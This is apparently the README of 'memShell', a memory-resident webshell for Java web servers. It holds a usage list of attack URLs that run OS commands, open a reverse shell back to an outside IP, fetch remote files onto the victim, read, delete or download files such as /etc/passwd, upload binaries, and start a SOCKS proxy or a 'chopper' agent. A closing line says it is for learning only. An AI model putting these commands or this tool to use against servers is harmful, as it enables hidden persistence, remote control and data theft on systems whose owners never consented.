 # memShell
a webshell resides in the memory of java web server

# Usage
* anyurl?pwd=pass //show this help page.  
* anyurl?pwd=pass&model=exec&cmd=whoami  //run os command.  
* anyurl?pwd=pass&model=connectback&ip=8.8.8.8&port=51 //reverse a shell back to 8.8.8.8 on port 51.  
* anyurl?pwd=pass&model=urldownload&url=http://xxx.com/test.pdf&path=/tmp/test.pdf //download a remote file via the victim's network directly.  
* anyurl?pwd=pass&model=list[del|show]&path=/etc/passwd  //list,delete,show the specified path or file.  
* anyurl?pwd=pass&model=download&path=/etc/passwd  //download the specified file on the victim's disk.  
* anyurl?pwd=pass&model=upload&path=/tmp/a.elf&content=this_is_content[&type=b]   //upload a text file or a base64 encoded binary file to the victim's disk.  
* anyurl?pwd=pass&model=proxy  //start a socks proxy server on the victim.  
* anyurl?pwd=pass&model=chopper  //start a chopper server agent on the victim.  

**It is recommended to use the POST method to submit data** 

# note
For learning exchanges only, do not use for illegal purposes.by rebeyond.
